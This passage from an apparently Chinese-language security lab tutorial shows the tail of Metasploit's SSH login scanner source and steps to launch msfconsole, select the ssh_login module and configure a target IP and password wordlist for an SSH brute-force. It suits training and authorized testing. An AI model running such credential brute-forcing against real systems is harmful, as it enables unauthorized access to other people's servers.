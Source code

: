 ```
          print_brute :level => :verror, :ip => ip, :msg => "Failed: '#{result.credential}'"
        end
        invalidate_login(credential_data)
        scanner.ssh_socket.close if scanner.ssh_socket && !scanner.ssh_socket.closed?
      else
        invalidate_login(credential_data)
        scanner.ssh_socket.close if scanner.ssh_socket && !scanner.ssh_socket.closed?
      end
    end
  end

end
```

### 3.2 启动 msfconsole

在 Kali 中执行下面的命令，进入 msfconsole：

```
# 打开终端 MSF

sudo msfconsole
```

### 3.3 使用的攻击模块

在 msfconsole 中执行后续的命令，攻击的逻辑与我们先前的实验完全一致：

1. `use` 命令使用攻击模块
2. `set` 命令配置参数
3. `show options` 查看所有参数
4. `exploit` 执行攻击

本步骤中，我们使用 `use` 命令选择 3.1 中提到的攻击脚本：

```
msf > use auxiliary/scanner/ssh/ssh_login
```

**注意：msfconsole 的提示符中增加了 `ssh_login` 信息。**

### 3.4 配置攻击模块

查看并配置攻击模块必要的参数，此处需要配置的有下面几方面信息：

1. rhosts 目标服务器列表，我们配置为 target
2. userpass_file 使用的密码字典文件，我们使用 metasploit-framework 内置的一个密码文件，在 3.1 中有介绍，大概有900多行，如果使用更大的字典文件，测试的时间将更长
3. verbose 设置为 false，避免输出大量的中间信息

```
msf > set rhosts 192.168.122.102
msf > set userpass_file /usr/share/metasploit-framework/data/wordlists/piata_ssh_userpass.txt
msf > set verbose false
```
